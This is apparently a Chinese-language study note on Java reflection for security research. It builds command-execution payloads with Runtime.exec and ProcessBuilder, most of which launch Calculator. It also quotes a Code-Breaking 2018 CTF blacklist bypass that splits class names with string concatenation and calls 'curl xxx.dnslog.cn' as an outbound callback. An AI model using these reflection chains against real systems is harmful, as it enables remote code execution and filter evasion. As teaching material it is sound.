

> Java安全可以从反序列化漏洞开始说起，反序列化漏洞⼜可以从反射开始说起。

# Java安全漫谈-反射篇
> 可以获取到任何类的构造方法`Constructors`、成员方法`Methods`、成员变量`Fields`等信息

- 核心方法：基本上这⼏个⽅法包揽了Java安全⾥各种和反射有关的Payload。
   - 获取类对象的⽅法： `forName`
   - 实例化类对象的⽅法： `newInstance`
   - 获取函数的⽅法： `getMethod`
   - 执⾏函数的⽅法： `invoke`

```java
public void execute(String className, String methodName) throws Exception {
    Class clazz = Class.forName(className);
    clazz.getMethod(methodName).invoke(clazz.newInstance());
}

```


## Class.forName
> 通常一个JVM下，只会有一个ClassLoader，而一个ClassLoader下，一种类只会有一个Class对象存在、所以一个JVM中，一种类只会有一个Class对象存在。

[Class.forName()](https://docs.oracle.com/javase/7/docs/api/java/lang/Class.html#forName%28java.lang.String%29)，有两个函数重载，其中方法1可以理解为方法2的封装：

- `Class<?> forName(String name)`
- `Class<?> forName(String name, boolean initialize,ClassLoader loader)`
   - `name`：类名，即类完整路径，如`java.lang.Runtime`，
   - `initialize`：是否初始化
   - `ClassLoader`：类加载器，Java默认的ClassLoader就是根据类名来加载类

```java
Class.forName(className);
// 等于
Class.forName(className, true, currentLoader);

```

### 参数initialize
先来看一段代码，分别通过2种方式运行：类初始化`forName`、类实例化`new`

```java
package reflection;
import java.io.IOException;

public class TrainPrint {
    {
        System.out.printf("Empty block initial %s\n", this.getClass());
    }

    static {
        System.out.printf("Static initial %s\n", TrainPrint.class);
    }

    public TrainPrint() {
        System.out.printf("Initial %s\n", this.getClass());
    }

    public static void main(String[] args) throws IOException, ClassNotFoundException {
        // 类初始化
        // Class.forName("reflection.TrainPrint");

        // 类实例化
        TrainPrint test = new TrainPrint();
    }

}

/* 
类初始化输出结果
  Static initial class reflection.TrainPrint

类实例化输出结果
  Static initial class reflection.TrainPrint
  Empty block initial class reflection.TrainPrint
  Initial class reflection.TrainPrint
*/

```

其中，`static{}`就是在**类初始化**时调用的，`{}`则会在构造函数的`super{}`后面，但在当前构造函数内容的前面。上面例子执行顺序为：

   - 类初始化：`static{}`
   - 类实例化：`static{} -> {} -> 构造函数`

所以，`forName`中的`initialize`其实是决定是否执⾏**类初始化**，而不是**类实例化**


### 简单利用
上面说到，在使用`forName()`进行类初始化时，会执行`static{}`中的代码
假设存在一个函数，其中的`className`可控

```java
package reflection;

public class TestRef {
    public void ref(String name) throws Exception {
        Class.forName(name);
    }

    public static void main(String[] args) throws Exception {
        String className = "reflection.TestCalc";

        TestRef testRef = new TestRef();
        testRef.ref(className);
    }
}

```
那么可以构造一个恶意类，在`static{}`中编写恶意代码。当这个恶意类被带入目标机器该函数时，触发`forName`进行类初始化，从而执行其中的恶意代码（实际情况中如果需要将这个恶意类带⼊⽬标机器中，就涉及到`ClassLoader`的利⽤）

```java
package reflection;

public class TestCalc {
    static {
        try {
            Runtime rt = Runtime.getRuntime();
            String[] commands = {"open", "/System/Applications/Calculator.app"};
            Process pc = rt.exec(commands);
            pc.waitFor();
        } catch (Exception e){
            e.printStackTrace();
        }
    }
}

```



### 获取类对象的其它函数
`forName`不是获取“类”的唯⼀途径，通常有三种⽅式获取⼀个“类”，也就是`java.lang.Class`对象：

- `Class.forName(className)`，如果已经知道某个类的名字，这样可以获取到它的类
- `obj.getClass()`，如果上下文存在某个类的实例`obj`，可以直接获取到它的类
- `Test.class`，如果已经加载了某个类，只是想获取它的`java.lang.Class`对象，那么直接取它的`class`属性即可。这个方法其实不属于反射
> 上面第1和第2种方式获取Class对象时会导致**类属性**被初始化，而且只会执行一次。

```java
package reflection;

import java.lang.reflect.Constructor;

public class TestReflection {
    public static void main(String[] args) {
        String className = "java.lang.Runtime";

        try {
            Class class1 = Class.forName(className);
            Class class2 = java.lang.Runtime.class;
            Class class3 = ClassLoader.getSystemClassLoader().loadClass(className);
        }
        catch (Exception e){
            e.printStackTrace();
        }
    }
}

```


### 调用内部类
> 在正常情况下，除了系统类，如果我们想拿到一个类，需要先`import`才能使用。而使用`forName`就不需要，这样对于我们的攻击者来说就十分有利，我们可以加载任意类。

另外，经常在一些源码里看到，类名的部分包含`$`符号，比如 Fastjson 在`checkAutoType`时就会先将`$`替换成`.`（参考链接：[fastjson/parser/ParserConfig.java#L1038](https://github.com/alibaba/fastjson/blob/fcc9c2a/src/main/java/com/alibaba/fastjson/parser/ParserConfig.java#L1038)）
`**$**`**的作用是查找内部类**：Java 的普通类`C1`中支持编写内部类`C2`，而在编译的时候，会生成两个文件：`C1.class`和`C1$C2.class`，通过`Class.forName("C1$C2")`即可加载这个内部类。


## Class.newInstance
> 获得类以后，可以继续使用反射来获取类中的属性和方法，也可以实例化这个类再调用方法。

[Class.newInstance()](https://docs.oracle.com/javase/7/docs/api/java/lang/Class.html#newInstance%28%29)，Java反射框架中**类对象创建新的实例化对象**的方法。作用就是调用这个类的无参构造函数。当调用`newInstance`不成功时，原因可能是：

- 使用的类没有无参构造函数
- 使用的类构造函数是私有的


### 私有的类构造方法
最常见的情况就是`java.lang.Runtime`，这个类在构造命令执行Payload时经常用到，但不能直接这样来执行命令：

```java
package reflection;

public class TestNewInstance {
    public static void main(String[] args) throws Exception{
        Class clazz = Class.forName("java.lang.Runtime");
        clazz.getMethod("exec", String.class).invoke(clazz.newInstance(), "id");
    }
}

/* 报错
Exception ... can not access a member of class java.lang.Runtime with modifiers "private"
*/

```

原因是`java.lang.Runtime`这个类的构造方法是私有的，这里涉及到[单例模式](https://www.runoob.com/design-pattern/singleton-pattern.html)的设计思想（比如Web应用中的数据库链接，通常只需要链接一次。此时可以将数据库链接所使用的类的构造函数设为私有，这样**只有在类初始化时才会执行一次构造函数**，然后通过编写一个静态方法来获取这个数据库对象）
这里`Runtime`类也使用了单例模式，因此只能通过`Runtime.getRuntime()`来获取`Runtime`对象。所以需要修改为：

```java
package reflection;

public class TestNewInstance {
    public static void main(String[] args) throws Exception{
        Class clazz = Class.forName("java.lang.Runtime");
        clazz.getMethod("exec", String.class).invoke(
            clazz.getMethod("getRuntime").invoke(clazz), 
            "open /System/Applications/Calculator.app"
        );
    }
}
```


### getMethod和invoke
> 上面的例子中用到了`getMethod()`和`invoke()`方法。正常执行方法是`[1].method([2], [3], [4]...)` ，在反射里就是`method.invoke([1], [2], [3], [4]...)`

`getMethod()`，作用是通过反射获取Class对象的指定公有方法，调用`getMethod()`时需要根据获取的方法传递对应的**参数类型列表**。
例如需要调用`Runtime.exec()`方法，该方法有6个重载，以第一个为例：`exec(String command)`，那么就需要传递一个`String`类的类对象

```java
getMethod("exec", String.class)
            
```
`invoke()`属于`Method`类，作用是对方法进行调用

- 如果执行的是普通方法，那么第一个参数是类对象
- 如果执行的是静态方法，那么第一个参数是类

所以前面的例子也可以修改为：

```java
package reflection;

import java.lang.reflect.Method;

public class TestNewInstance {
    public static void main(String[] args) throws Exception{
        Class clazz = Class.forName("java.lang.Runtime");
        
        Method execMethod = clazz.getMethod("exec", String.class);
        Method getRuntimeMethod = clazz.getMethod("getRuntime");    
        Object runtime = getRuntimeMethod.invoke(clazz);
        
        execMethod.invoke(runtime, "open /System/Applications/Calculator.app");
    }
}

```

这里有2个问题：

- 如果一个类没有无参构造方法，也没有类似单例模式里的静态方法，怎样通过反射实例化该类？
- 如果一个方法或构造方法是私有方法，是否能够通过反射执行？

## Class.getConstructor
> 如果一个类没有无参构造方法，也没有单例模式里的静态方法，怎样通过反射实例化该类？

[Class.getConstructor()](https://docs.oracle.com/javase/7/docs/api/java/lang/Class.html#getConstructor%28java.lang.Class...%29)，作用是获取构造函数对象，接收的参数是**构造函数的参数类型列表**。获取到构造函数后，使用`newInstance`来进行实例化
以另一种命令执行方式`ProcessBuilder`类为例，该类有两个构造函数：

- `public ProcessBuilder(List<String> command)`
- `public ProcessBuilder(String... command)`


### 反射替代强制类型转换
第一种构造函数，需要传入`List.class`类对象。先通过反射来获取其构造函数，再调用`start()`方法执行命令：

```java
package reflection;

import java.util.List;
import java.util.Arrays;

public class TestProcessBuilder {
    public static void main(String[] args) throws Exception {
        Class clazz = Class.forName("java.lang.ProcessBuilder");
        ((ProcessBuilder) clazz.getConstructor(List.class).newInstance(Arrays.asList("open", "/System/Applications/Calculator.app"))).start();
    }
}

```
这个Payload用到了强制类型转换，实际情况下利用漏洞的时候没有这种语法，所以需要利用反射来完成这一步。这里通过`getMethod("start")`获取到`start`方法，然后`invoke`执行，`invoke`的第一个参数就是`ProcessBuilder`类对象

```java
package reflection;

import java.util.List;
import java.util.Arrays;

public class TestProcessBuilder {
    public static void main(String[] args) throws Exception {
        Class clazz = Class.forName("java.lang.ProcessBuilder");

        clazz.getMethod("start").invoke(
            clazz.getConstructor(List.class).newInstance(Arrays.asList("open", "/System/Applications/Calculator.app"))
        );
    }
}

```


### 可变长参数
第二种构造函数，传递的参数为`(String... command)`，即表示这是一个可变长参数。如果想要在反射中获取这种参数，将其看作数组即可：

```java
Class clazz = Class.forName("java.lang.ProcessBuilder");
clazz.getConstructor(String[].class);

```

在调用`newInstance`的时候，因为这个函数本身接收的是一个可变长参数，`ProcessBuilder`所接收的也是一个可变长参数，二者叠加为一个二维数组，所以整个Payload如下：

```java
package reflection;

public class TestProcessBuilder {
    public static void main(String[] args) throws Exception {
        Class clazz = Class.forName("java.lang.ProcessBuilder");
        ((ProcessBuilder) clazz.getConstructor(String[].class).newInstance(new String[][]{{"open", "/System/Applications/Calculator.app"}})).start();

    }
}

```
同样地可以利用完全反射完成：

```java
package reflection;

public class TestProcessBuilder {
    public static void main(String[] args) throws Exception {
        Class clazz = Class.forName("java.lang.ProcessBuilder");
        clazz.getMethod("start").invoke(
            clazz.getConstructor(String[].class).newInstance(new String[][]{{"open", "/System/Applications/Calculator.app"}})
        );

    }
}

```


## Class.getDeclared
> 如果一个方法或构造方法是私有方法，是否能够通过反射执行？

这里涉及到`getDeclared`系列的方法：[getDeclaredMethod()](https://docs.oracle.com/javase/7/docs/api/java/lang/Class.html#getDeclaredMethod%28java.lang.String,%20java.lang.Class...%29)和[getDeclaredConstructor()](https://docs.oracle.com/javase/7/docs/api/java/lang/Class.html#getDeclaredConstructor%28java.lang.Class...%29)。它们和普通`getMethod()/getConstructor()`的用法类似，主要区别在于：

- `getMethod()`系列方法获取的是当前类中所有公共方法，包括从父类继承的方法
- `getDeclaredMethod()`系列方法获取的是当前类中“声明”的方法，包括私有方法，但不包括从父类继承的方法


### 反射私有构造方法

- 以`java.lang.Runtime`类为例，前文说到这个类的构造方法是私有的。这里可以直接调用`getDeclaredConstructor()`来获取这个私有的构造方法来实例化对象，从而执行命令
   - 需要注意的是，获取私有方法后需要用`setAccessible()`修改其作用域，否则仍然不能调用。

```java
package reflection;

import java.lang.reflect.Constructor;

public class TestDeclared {
    public static void main(String[] args) throws Exception {
        Class clazz = Class.forName("java.lang.Runtime");
        Constructor cs = clazz.getDeclaredConstructor();
        cs.setAccessible(true);

        clazz.getMethod("exec", String.class).invoke(
            cs.newInstance(), 
            "open /System/Applications/Calculator.app");
    }
}

```


## 实例-沙盒绕过
> 在安全研究中，我们使⽤反射的⼀⼤⽬的，就是绕过某些沙盒。

⽐如上下⽂中如果只有`Integer`类型的数字，如何获取到可以执⾏命令的`Runtime`类呢，伪代码：

```java
 1.getClass().forName("java.lang.Runtime")
 
```
> Code-Breaking 2018中某道题的第三方Writup：[http://rui0.cn/archives/1015](http://rui0.cn/archives/1015)

在JAVA中可以通过下面代码来执行命令，但在题目中使用了黑名单

```java
Runtime.getRuntime().exec("curl xxx.dnslog.cn")

```
使用反射来构造一条调用链，这样就可以在关键字处使用字符串拼接来达到绕过黑名单的效果

```java
String.class.getClass().forName("java.l"+"ang.Ru"+"ntime").getMethod("exec",String.class).invoke(String.class.getClass().forName("java.l"+"ang.Ru"+"ntime").getMethod("getRu"+"ntime").invoke(String.class.getClass().forName("java.l"+"ang.Ru"+"ntime")), "curl xxx.dnslog.cn);

```
整理一下比较容易理解：

```java
String.class.getClass()            // 获取 Class 对象
.forName("java.lang.Runtime")      // 获取 Runtime 对象
.getMethod("exec", String.class)   // 获取 exec 方法
.invoke(                           // 反射调用 exec 方法
    String.class.getClass()        // 同上,获取并调用 getRuntime 方法
    .forName("java.lang.Runtime")
    .getMethod("getRuntime")
    .invoke(                       // 同上,获取 Runtime 对象
        String.class.getClass()
    .forName("java.lang.Runtime")
    ), 
  "curl xxx.dnslog.cn"             // exec 方法参数
);

```

- 完整代码：

```java
package reflection;

public class TestChain {
    public static void main(String[] args) {
        // Runtime.getRuntime().exec("curl xxx.dnslog.cn")
        try {
            String.class.getClass().forName("java.lang.Runtime").getMethod("exec", String.class).invoke(
                String.class.getClass().forName("java.lang.Runtime").getMethod("getRuntime").invoke(
                    String.class.getClass().forName("java.lang.Runtime")
                ), "curl xxx.dnslog.cn"
            );
        }
        catch (Exception e) {
            e.printStackTrace();
        }
    }
}

```

- 参考文章：
   - [java.lang.Class](https://docs.oracle.com/javase/7/docs/api/java/lang/Class.html)
   - [Java安全漫谈](https://github.com/phith0n/JavaThings)
   - [Java反序列化学习之反射](https://forum.butian.net/share/1333)
   - [Code-Breaking Puzzles — javacon WriteUp](http://rui0.cn/archives/1015)
